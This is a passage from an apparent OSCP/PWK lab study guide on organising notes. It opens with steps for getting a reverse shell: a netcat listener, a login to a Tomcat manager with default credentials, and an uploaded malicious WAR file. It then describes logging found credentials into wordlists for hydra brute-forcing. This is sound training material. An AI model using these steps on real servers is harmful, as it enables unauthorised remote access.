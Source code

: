```text
1) start a reverse shell listener on port 443:
root@hello:255-TEDDY# nc -nvlp 443

2) go to the following url and login:
http://10.11.1.255:8080/manager/html/upload 	tomcat:tomcat

3) upload `burmat.war` using the "WAR file to deploy" feature

4) navigate to: http://10.11.1.255:8080/burmat
```

### Global Files

Remember those "_Global Files_" I mentioned up in the previous section?  Specifically, I am referring to these 4 files in my `lab/` directory:

* completion\_log.txt
* credentials.txt
* unames.txt
* passwords.txt

Let's go in order and I'll tell you what I use them for:

1. **completion\_log.txt** - This file is used to keep track of my progress. In this file, I put the IP and hostname of the machine, the date that I achieved root/SYSTEM on it, and a super broad explanation how I did so. For example: `.255 (TEDDY) 07/19 lfi on custom webapp, scheduled task overwrite`.  It's not incredibly specific, but with this information you might be able to remember the machine better. If you look here first, you can dive into your notes with a better understanding of what points are meaningful.
2. **credentials.txt** - This file will keep all of the credentials you find. Even it if is `admin:admin`,  you log it here. Here is a sample entry from my file: `admin:pass    # .255 (TEDDY) - http://10.11.1.255/admin/`. Similar to **completion\_log.txt**, this file is supposed to be broad, but also point you directly to something. You should be able to `grep` this file or look here for even the most basic logins for particular machines.  It also helps you locate where a given password was found. Which leads me into...
3. **unames.txt** and **passwords.txt** - These "_Global Files_" are your custom wordlists. Every time you find a username or a password, you append it to the corresponding file. You can then use these files if you need to brute things with `hydra` or other crackers. Password reuse **IS** a thing in PWK so make sure you take advantage of it from the start. I would recommend putting this list through something that will strip out the duplicates before cracking, as there is no reason to try the same password more than once \(`awk '!seen[$0]++' unames.txt && awk '!seen[$0]++' passwords.txt` should do it\). 

### Leveraging Your Notes

If you are still following along with me, that's great! Below are examples on how I leverage my project structure to find particular things and the reason for why I do what I do.

#### Using Aliases to Go Places

Aliases are incredible. Seriously. They make stupid commands less stupid, so learn how to leverage aliases now if you aren't.  I save all of my aliases to `/etc/profile.d/00-aliases.sh`.  Below are some of the ones I rely on pretty consistently:

